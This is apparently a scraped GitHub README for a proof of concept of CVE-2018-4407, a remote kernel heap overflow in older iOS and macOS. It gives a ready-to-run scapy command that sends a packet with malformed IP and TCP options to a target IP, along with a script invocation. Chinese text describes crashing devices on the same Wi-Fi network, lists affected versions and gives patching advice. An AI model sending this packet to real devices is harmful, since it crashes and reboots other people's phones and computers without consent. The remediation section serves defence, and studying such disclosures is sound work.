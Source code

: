# check_icmp_dos

iOS 12 / OS X Remote Kernel Heap Overflow (CVE-2018-4407) POC

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Pa55w0rd](https://github.com/Pa55w0rd) |
| Url      | [https://github.com/Pa55w0rd/check_icmp_dos](https://github.com/Pa55w0rd/check_icmp_dos)                                               |
| Stars    | 60                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# check_icmp_dos

***iOS 12 / OS X *Remote Kernel Heap Overflow (CVE-2018-4407) POC：***
```
pip install scapy
sudo scapy 
send(IP(dst=“Target IP“,options=[IPOption(“A”*8)])/TCP(dport=2323,options=[(19, “1"*18),(19, “2”*18)]))

```

或使用脚本

```
python check_icmp_dos.py 127.0.0.1
```

该漏洞使得攻击者只要接入同一Wi-Fi网络，即可向其他毫不知情的用户发送恶意数据包来触发任何Mac或iOS设备的崩溃和重启。由于该漏洞存在于系统网络核心代码，因此任何反病毒软件均无法防御。

运行以下操作系统的设备易受攻击：
```
Apple iOS 11及更早版本：所有设备（升级到iOS 12的部分设备）

Apple macOS High Sierra（受影响的最高版本为10.13.6）：所有设备（通过安全更新2018-001修复）

Apple macOS Sierra（受影响的最高版本为10.12.6）：所有设备（通过安全更新2018-005中修复）

Apple OS X El Capitan及更早版本：所有设备

```



# 修复建议

目前，苹果官方已经发布了ios12.1版本更新修复了该漏洞，建议用户及时确认系统版本，如受影响，请及时采取修补措施。漏洞修补措施如下：
1. 进行系统更新，更新到最新版本
2. 如果没有更新到最新版本，可在macOS防火墙中启用隐藏模式可防止攻击，这个系统设置默认情况下不启用，需要用户手动开启。
3. 不接入公共无线网络。触发该漏洞的唯一必要条件是处于同一网络，该漏洞不支持通过互联网发送恶意数据包而触发



## Get the content

```
git clone https://github.com/Pa55w0rd/check_icmp_dos
cd check_icmp_dos
```

{% embed url="https://github.com/Pa55w0rd/check_icmp_dos" %}

<figure><img src="https://avatars.githubusercontent.com/u/16274549?v=4" alt=""><figcaption><p>Pa55w0rd</p></figcaption></figure>
